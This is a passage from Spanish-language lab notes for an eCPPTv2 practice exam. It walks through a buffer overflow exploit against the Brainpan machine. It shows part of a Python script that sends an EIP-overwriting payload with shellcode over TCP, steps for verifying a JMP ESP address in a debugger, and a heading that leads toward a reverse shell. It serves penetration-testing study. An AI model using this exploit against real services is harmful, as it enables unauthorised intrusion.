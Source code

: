     # Payload
    payload = before_eip + eip + b"\x83\xEC\x10" + shellcode
    
    # Establecer conexión TCP
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((ip_address, port))
    
    # Recibir el banner o respuesta de la conexión
    banner = s.recv(1024)
    
    # Envío de datos
    s.send(payload)
    
    # Cierre de conexión
    s.close()
    ```
    

![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 150.png)

- Opcional: Verificar JMP ESP con breakpoints
    
    ### Verificar JMP ESP con breakpoints
    
    Para verificar la funcionalidad de este OPCode, primero se dirigirá a su dirección en memoria para establecer un breakpoint.
    
    ![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 151.png)
    
    Click derecho sobre el el OPCode y se establece el breakpoint
    
    ![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 152.png)
    
    Se ejecuta el script y en la dirección del EIP se puede ver que se está apuntando a la dirección del OPcode.
    
    ![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 153.png)
    
    Y al hacer un “step into” para que se ejecute el OPCode, se puede ver que ahora el EIP apunta al ESP.
    
    ![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 154.png)
    

### Explotación Buffler Overflow - Reverse Shell Final

Ahora se debe adecuar este script para explotar el servicio en la máquina Brainpan y obtener una reverse shell.
